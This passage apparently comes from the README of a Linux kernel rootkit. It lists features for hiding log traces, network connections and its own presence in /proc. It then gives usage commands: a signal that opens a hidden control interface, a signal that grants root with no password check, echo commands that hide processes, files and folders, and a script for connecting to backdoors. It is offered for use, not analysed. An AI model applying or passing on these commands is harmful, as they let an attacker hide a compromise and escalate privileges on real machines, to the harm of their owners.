 ### 9. Logs

* Removes traces from `dmesg`.
* Masks TCP/UDP connections.
* Hides itself from `/proc`.

## Usage:

### Enable the /proc interface

```bash
kill -SIGCONT 31337
```

After that `/proc/interface_name` starts listening for your commands.

### Gain root

```bash
kill -SIGCONT 666
su      # automatic local privilege escalation
```

### Hide a process

```bash
echo <PID> > /proc/interface_name
```

### Hide files and folders

* In the current directory:

  ```bash
  echo hide-file=README.txt > /proc/interface_name
  ```

* By absolute path:

  ```bash
  echo hide-directory=/home/user/docs > /proc/interface_name
  ```

### Backdoors

To check which backdoors are available:

```bash
utils/bd_connect.sh
```

## Technical Details:

### Architecture
